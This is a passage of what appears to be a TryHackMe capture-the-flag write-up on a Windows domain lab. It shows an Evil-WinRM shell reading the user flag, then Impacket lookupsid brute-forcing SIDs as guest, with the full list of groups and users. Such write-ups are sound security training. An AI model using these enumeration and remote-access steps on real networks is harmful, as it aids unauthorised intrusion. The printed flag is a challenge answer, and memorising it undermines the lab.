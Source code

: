 ```bash
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        6/16/2023   4:35 PM             31 user.txt

*Evil-WinRM* PS C:\Users\automate\Desktop> type user.txt
THM{AUTOMATION_WILL_REPLACE_US}

```

I was not able to find anything more on my own, so I read a hint from someone. Using Impacket’s `lookupsid` we can find some users.

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py thm.corp/guest@10.10.202.246
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at 10.10.202.246
[*] StringBinding ncacn_np:10.10.202.246[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1966530601-3185510712-10604624
498: THM\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: THM\Administrator (SidTypeUser)
501: THM\Guest (SidTypeUser)
502: THM\krbtgt (SidTypeUser)
512: THM\Domain Admins (SidTypeGroup)
513: THM\Domain Users (SidTypeGroup)
514: THM\Domain Guests (SidTypeGroup)
515: THM\Domain Computers (SidTypeGroup)
516: THM\Domain Controllers (SidTypeGroup)
517: THM\Cert Publishers (SidTypeAlias)
518: THM\Schema Admins (SidTypeGroup)
519: THM\Enterprise Admins (SidTypeGroup)
520: THM\Group Policy Creator Owners (SidTypeGroup)
521: THM\Read-only Domain Controllers (SidTypeGroup)
522: THM\Cloneable Domain Controllers (SidTypeGroup)
525: THM\Protected Users (SidTypeGroup)
526: THM\Key Admins (SidTypeGroup)
527: THM\Enterprise Key Admins (SidTypeGroup)
553: THM\RAS and IAS Servers (SidTypeAlias)
571: THM\Allowed RODC Password Replication Group (SidTypeAlias)
572: THM\Denied RODC Password Replication Group (SidTypeAlias)
1008: THM\HAYSTACK$ (SidTypeUser)
1109: THM\DnsAdmins (SidTypeAlias)
1110: THM\DnsUpdateProxy (SidTypeGroup)
1111: THM\3091731410SA (SidTypeUser)
1112: THM\ERNESTO_SILVA (SidTypeUser)
1113: THM\TRACY_CARVER (SidTypeUser)
1114: THM\SHAWNA_BRAY (SidTypeUser)
1115: THM\CECILE_WONG (SidTypeUser)
1116: THM\CYRUS_WHITEHEAD (SidTypeUser)
1117: THM\DEANNE_WASHINGTON (SidTypeUser)
1118: THM\ELLIOT_CHARLES (SidTypeUser)
1119: THM\MICHEL_ROBINSON (SidTypeUser)
1120: THM\MITCHELL_SHAW (SidTypeUser)
1121: THM\FANNY_ALLISON (SidTypeUser)
1122: THM\JULIANNE_HOWE (SidTypeUser)
1123: THM\ROSLYN_MATHIS (SidTypeUser)
1124: THM\DANIEL_CHRISTENSEN (SidTypeUser)
1125: THM\MARCELINO_BALLARD (SidTypeUser)
1126: THM\CRUZ_HALL (SidTypeUser)
1127: THM\HOWARD_PAGE (SidTypeUser)
1128: THM\STEWART_SANTANA (SidTypeUser)
1130: THM\LINDSAY_SCHULTZ (SidTypeUser)
1131: THM\TABATHA_BRITT (SidTypeUser)
1132: THM\RICO_PEARSON (SidTypeUser)
```